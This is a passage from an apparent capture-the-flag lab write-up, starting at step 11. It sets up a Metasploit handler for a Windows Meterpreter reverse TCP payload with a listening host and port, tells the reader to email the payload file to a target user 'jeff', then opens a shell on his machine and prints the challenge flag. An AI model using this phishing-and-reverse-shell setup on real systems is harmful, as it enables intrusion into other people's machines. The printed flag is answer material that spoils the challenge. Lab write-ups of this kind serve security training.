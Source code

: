 11. Now on the handler:


Msfconsole
Use multi/handler
Set payload
windows/x64/meterpreter/rev
erse_tcp
Show options
Set lport 5433
Set lhost 198.18.103.134





12. Run (at this point you should send the email to jeff) and what to listen. At this point when jeff’s machine execute the file will be able to connect by meterpreter, we can list files on the machine.

![flag 5](https://github.com/Mays-M/Images-/blob/main/flag5.png)

13. Enter the shell

![shell](https://github.com/Mays-M/Images-/blob/main/shell.png)

14. Flag successfully found inside text file called flag on jeff’s desktop after
directed to desktop path and typed, thendecoded the content.
flag{HlXN50rE4VbPLJD}


![text](https://github.com/Mays-M/Images-/blob/main/text.png)

![flag 6](https://github.com/Mays-M/Images-/blob/main/flag6.png)
